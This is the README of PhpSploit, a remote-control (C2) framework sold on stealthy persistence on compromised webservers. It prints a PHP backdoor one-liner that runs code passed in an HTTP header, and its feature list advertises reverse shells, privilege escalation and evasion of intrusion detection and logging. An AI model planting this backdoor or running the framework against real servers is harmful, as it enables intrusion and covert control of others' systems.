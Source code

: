 <p align="center">
  <a href="https://github.com/nil0x42/phpsploit" alt="master">
    <img src="data/img/logo.png" alt="Master">
  </a>
</p>

<h3 align="center">
    Full-featured C2 framework which silently persists on <br>webserver via polymorphic PHP oneliner
    <a href="https://twitter.com/intent/tweet?text=PhpSploit%2C%20Full-featured%20C2%20framework%20which%20silently%20persists%20on%20webserver%20via%20polymorphic%20PHP%20oneliner%20-%20by%20@nil0x42&url=https://github.com/nil0x42/phpsploit">
      <img src="https://img.shields.io/twitter/url?label=tweet&logo=twitter&style=social&url=http%3A%2F%2F0" alt="tweet">
    </a>
</h3>
<br>

<p align="center">
  <a href="https://travis-ci.com/nil0x42/phpsploit">
    <img src="https://img.shields.io/travis/com/nil0x42/phpsploit?branch=master&logo=travis&color=blue" alt="travis build">
  </a>
  <a href="https://requires.io/github/nil0x42/phpsploit/requirements/?branch=master">
    <img src="https://requires.io/github/nil0x42/phpsploit/requirements.svg?branch=master" alt="requires.io requirements">
  </a>
  <a href="https://app.codacy.com/gh/nil0x42/phpsploit/dashboard">
    <img src="https://img.shields.io/codacy/grade/f8514058aec04ad98727c79701bc042a?logo=codacy&logoColor=green" alt="codacy code quality">
  </a>
  <a href="https://lgtm.com/projects/g/nil0x42/phpsploit/alerts/">
    <img src="https://img.shields.io/lgtm/alerts/github/nil0x42/phpsploit?logo=lgtm&logoColor=yellow" alt="lgtm alerts">
  </a>
  <a href="https://codecov.io/gh/nil0x42/phpsploit">
    <img src="https://img.shields.io/codecov/c/github/nil0x42/phpsploit?color=orange&label=coverage&logo=codecov" alt="codecov coverage">
  </a>
  <a href="https://codeclimate.com/github/nil0x42/phpsploit/maintainability">
    <img src="https://img.shields.io/codeclimate/maintainability/nil0x42/phpsploit?color=blueviolet&logo=code-climate&logoColor=blueviolet" alt="codeclimate maintainability">
  </a>
</p>

<p align="center">
  <a href="https://github.com/enaqx/awesome-pentest">
    <img src="https://awesome.re/mentioned-badge.svg">
  </a>
  <a href="https://twitter.com/intent/follow?screen_name=nil0x42" target="_blank">
    <img src="https://img.shields.io/twitter/follow/nil0x42.svg?logo=twitter">
  </a>
</p>

<div align="center">
  <sub>
    Created by
    <a href="https://twitter.com/nil0x42">nil0x42</a> and
    <a href="https://github.com/nil0x42/phpsploit#contributors">contributors</a>
  </sub>
</div>

<br>

* * * * * * * * * * * * * * * * * * * * * * * * * * * * * * * * * * *

<p align="center">
  <img src="data/img/demo.png">
</p>


#### Overview

The obfuscated communication is accomplished using HTTP headers under
standard client requests and web server's relative responses, tunneled
through a tiny **polymorphic backdoor**:

```php
<?php @eval($_SERVER['HTTP_PHPSPL01T']); ?>
```

* * * * * * * * * * * * * * * * * * * * * * * * * * * * * * * * * * *

#### Quick Start

```sh
git clone https://github.com/nil0x42/phpsploit
cd phpsploit/
pip3 install -r requirements.txt
./phpsploit --interactive --eval "help help"
```

* * * * * * * * * * * * * * * * * * * * * * * * * * * * * * * * * * *

#### Features

-   **Efficient**: More than 20 plugins to automate privilege-escalation tasks
    -   Run commands and browse filesystem, bypassing PHP security restrictions
    -   Upload/Download files between client and target
    -   Edit remote files through local text editor
    -   Run SQL console on target system
    -   Spawn reverse TCP shells

-   **Stealth**: The framework is made by paranoids, for paranoids
    -   Nearly invisible by log analysis and NIDS signature detection
    -   Safe-mode and common _PHP security restrictions bypass_
    -   Communications are hidden in HTTP Headers
    -   Loaded payloads are obfuscated to _bypass NIDS_
    -   http/https/socks4/socks5 **Proxy support**

-   **Convenient**: A robust interface with many crucial features
    -   Detailed help for any option (`help` command)
    -   _Cross-platform_ on both client and server.
    -   CLI supports auto-completion & multi-command
    -   Session saving/loading feature & persistent history
    -   Multi-request support for large payloads (such as uploads)
    -   Provides a powerful, highly configurable settings engine
    -   Each setting, such as user-agent has a _polymorphic mode_
    -   Customisable environment variables for plugin interaction
    -   Provides a complete plugin development API

* * * * * * * * * * * * * * * * * * * * * * * * * * * * * * * * * * *

#### Supported platforms (as attacker):

-   GNU/Linux
-   Mac OS X

#### Supported platforms (as target):

-   GNU/Linux
-   BSD-like
-   Mac OS X
-   Windows NT

## Contributors

:trophy: **Hall-of-fame**

[![](https://sourcerer.io/fame/nil0x42/nil0x42/phpsploit/images/0)](https://sourcerer.io/fame/nil0x42/nil0x42/phpsploit/links/0)
[![](https://sourcerer.io/fame/nil0x42/nil0x42/phpsploit/images/1)](https://sourcerer.io/fame/nil0x42/nil0x42/phpsploit/links/1)
[![](https://sourcerer.io/fame/nil0x42/nil0x42/phpsploit/images/2)](https://sourcerer.io/fame/nil0x42/nil0x42/phpsploit/links/2)
[![](https://sourcerer.io/fame/nil0x42/nil0x42/phpsploit/images/3)](https://sourcerer.io/fame/nil0x42/nil0x42/phpsploit/links/3)
[![](https://sourcerer.io/fame/nil0x42/nil0x42/phpsploit/images/4)](https://sourcerer.io/fame/nil0x42/nil0x42/phpsploit/links/4)
[![](https://sourcerer.io/fame/nil0x42/nil0x42/phpsploit/images/5)](https://sourcerer.io/fame/nil0x42/nil0x42/phpsploit/links/5)
[![](https://sourcerer.io/fame/nil0x42/nil0x42/phpsploit/images/6)](https://sourcerer.io/fame/nil0x42/nil0x42/phpsploit/links/6)
[![](https://sourcerer.io/fame/nil0x42/nil0x42/phpsploit/images/7)](https://sourcerer.io/fame/nil0x42/nil0x42/phpsploit/links/7)
<details>
<summary><b>All contributors</b></summary>
Thanks goes to these wonderful people:
<!-- ALL-CONTRIBUTORS-LIST:START - Do not remove or modify this section -->
<!-- prettier-ignore-start -->
<!-- markdownlint-disable -->
<table>
  <tr>
    <td align="center"><a href="https://exdemia.com"><img src="https://avatars1.githubusercontent.com/u/3504393?v=4" width="100px;" alt=""/><br /><sub><b>nil0x42</b></sub></a><br /><a href="https://github.com/nil0x42/phpsploit/commits?author=nil0x42" title="Code">💻</a> <a href="#infra-nil0x42" title="Infrastructure (Hosting, Build-Tools, etc)">🚇</a> <a href="#plugin-nil0x42" title="Plugin/utility libraries">🔌</a> <a href="https://github.com/nil0x42/phpsploit/commits?author=nil0x42" title="Tests">⚠️</a></td>
    <td align="center"><a href="https://github.com/shiney-wh"><img src="https://avatars1.githubusercontent.com/u/20907184?v=4" width="100px;" alt=""/><br /><sub><b>shiney-wh</b></sub></a><br /><a href="https://github.com/nil0x42/phpsploit/commits?author=shiney-wh" title="Code">💻</a> <a href="#plugin-shiney-wh" title="Plugin/utility libraries">🔌</a></td>
    <td align="center"><a href="http://wapiflapi.github.io"><img src="https://avatars3.githubusercontent.com/u/1619783?v=4" width="100px;" alt=""/><br /><sub><b>Wannes Rombouts</b></sub></a><br /><a href="https://github.com/nil0x42/phpsploit/commits?author=wapiflapi" title="Code">💻</a> <a href="#maintenance-wapiflapi" title="Maintenance">🚧</a></td>
    <td align="center"><a href="http://yurilz.com"><img src="https://avatars1.githubusercontent.com/u/6031769?v=4" width="100px;" alt=""/><br /><sub><b>Amine Ben Asker</b></sub></a><br /><a href="https://github.com/nil0x42/phpsploit/commits?author=yurilaaziz" title="Code">💻</a> <a href="#maintenance-yurilaaziz" title="Maintenance">🚧</a></td>
    <td align="center"><a href="http://twitter.com/jnazario"><img src="https://avatars1.githubusercontent.com/u/5619153?v=4" width="100px;" alt=""/><br /><sub><b>jose nazario</b></sub></a><br /><a href="https://github.com/nil0x42/phpsploit/commits?author=paralax" title="Documentation">📖</a> <a href="https://github.com/nil0x42/phpsploit/issues?q=author%3Aparalax" title="Bug reports">🐛</a></td>
    <td align="center"><a href="http://wikisecure.net"><img src="https://avatars3.githubusercontent.com/u/156915?v=4" width="100px;" alt=""/><br /><sub><b>Sujit Ghosal</b></sub></a><br /><a href="#blog-sujit" title="Blogposts">📝</a></td>
    <td align="center"><a href="https://github.com/sohelzerdoumi"><img src="https://avatars3.githubusercontent.com/u/3418725?v=4" width="100px;" alt=""/><br /><sub><b>Zerdoumi</b></sub></a><br /><a href="https://github.com/nil0x42/phpsploit/issues?q=author%3Asohelzerdoumi" title="Bug reports">🐛</a></td>
  </tr>
  <tr>
    <td align="center"><a href="https://github.com/tristandostaler"><img src="https://avatars3.githubusercontent.com/u/5489330?v=4" width="100px;" alt=""/><br /><sub><b>tristandostaler</b></sub></a><br /><a href="https://github.com/nil0x42/phpsploit/issues?q=author%3Atristandostaler" title="Bug reports">🐛</a></td>
    <td align="center"><a href="https://github.com/rohantarai"><img src="https://avatars3.githubusercontent.com/u/16543074?v=4" width="100px;" alt=""/><br /><sub><b>Rohan Tarai</b></sub></a><br /><a href="https://github.com/nil0x42/phpsploit/issues?q=author%3Arohantarai" title="Bug reports">🐛</a></td>
    <td align="center"><a href="https://triop.se"><img src="https://avatars1.githubusercontent.com/u/190150?v=4" width="100px;" alt=""/><br /><sub><b>Jonas Lejon</b></sub></a><br /><a href="#blog-jonaslejon" title="Blogposts">📝</a></td>
  </tr>
</table>

<!-- markdownlint-enable -->
<!-- prettier-ignore-end -->
<!-- ALL-CONTRIBUTORS-LIST:END -->
This project follows the [all-contributors](https://github.com/all-contributors/all-contributors) specification. Contributions of any kind welcome

</details>
